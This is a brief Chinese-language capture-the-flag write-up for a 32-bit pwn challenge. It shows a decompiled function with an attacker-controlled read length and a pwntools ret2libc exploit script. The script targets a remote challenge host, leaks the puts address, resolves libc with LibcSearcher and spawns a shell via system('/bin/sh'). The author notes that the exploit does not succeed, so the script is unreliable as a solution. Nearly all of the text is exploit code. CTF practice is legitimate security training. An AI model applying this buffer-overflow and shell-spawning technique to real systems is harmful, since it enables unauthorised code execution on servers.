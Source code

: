 

看样子就是要构造buf[7]的值，buf[7]传进来就是a1了

```
ssize_t __cdecl sub_80487D0(char a1)
{
  char buf[231]; // [esp+11h] [ebp-E7h] BYREF

  if ( a1 == 127 )
    return read(0, buf, 200u);
  else
    return read(0, buf, a1);
}
```



然后后面就是ret2libc



打不通

```python
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')
# io = process('./pwn')

ip='node5.buuoj.cn'
port = 26505

io = remote(ip,port)
elf = ELF('./pwn')

puts_plt = elf.plt['puts'] 
puts_got = elf.got['puts']

main_addr = 0x08048825

payload1 = b'\x00' + b'a'*6 + b'\xff'

io.sendline(payload1)

payload2 = b'a'*(0xe7+0x04) + p32(puts_plt) + p32(main_addr) + p32(puts_got)

io.sendafter(b'Correct\n',payload2)

puts_addr = u32(io.recv(4))

libc = LibcSearcher('puts',puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

io.sendline(payload1)

payload3 = b'a'*(0xe7+0x04) + p32(system_addr) + p32(0) + p32(binsh_addr)

io.sendafter(b'Correct\n',payload3)

io.interactive()
```
